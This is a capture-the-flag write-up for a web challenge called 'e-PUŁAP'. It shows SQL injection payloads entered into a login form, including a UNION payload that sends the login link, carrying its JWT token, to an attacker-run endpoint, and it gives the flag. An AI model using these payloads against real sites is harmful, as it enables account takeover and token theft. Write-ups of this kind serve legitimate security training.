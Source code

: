 # e-PUŁAP

> Passwords? You mean those weird cryptic strings from the XX century? Not gonna find them in our brand new e-PUŁAP service website!
>
> https://e-pulap.ecsc23.hack.cert.pl/

## Solution
The form on the login website is vulnerable to SQL injection. After sending `' or '1'='1`, one can see an error:
```
error:Could not resolve host: chat.evil-corporation.private
```
However, using `' union select '1`, results in another error:
```
Fatal error: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: each UNION query must have the same number of columns LINE 1: ...ok_login_url FROM users WHERE username = '' union select '1' ^ in /var/www/html/login.php:47 Stack trace: #0 /var/www/html/login.php(47): PDO->query('SELECT username...') #1 {main} thrown in
/var/www/html/login.php
on line
47
```
It seems that the query selects an username and an url. After creating an endpoit using e.g. requestbin and passing the following value in the form: `' union select '1', '' union select '1', '[endpoint url]`, we receive a POST HTTP request with the following form data:
```
--------------------------b137f5c0191aade6
Content-Disposition: form-data; name="text"

TwÃ³j link do logowania do strony sieciowej e-PUÅAP to https://e-pulap.ecsc23.hack.cert.pl/login.php?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiMSIsImV4cCI6MTY5MDIwODA2NCwiaXNzIjoibG9jYWxob3N0IiwiaWF0IjoxNjkwMjA0NDY0fQ.0K8DJuiwyJ1Gu1PgAiRTE61-1a749vzghbIRk_7H8J8
--------------------------b137f5c0191aade6--
```
This url redirects to a website with some quality memes and the flag.

![kofeina](media/kofeina.png)
![okladka](media/okladka.png)
![shellcode](media/shellcode.png)

## Flag
`ecsc23{paswordless_is_the_future!}`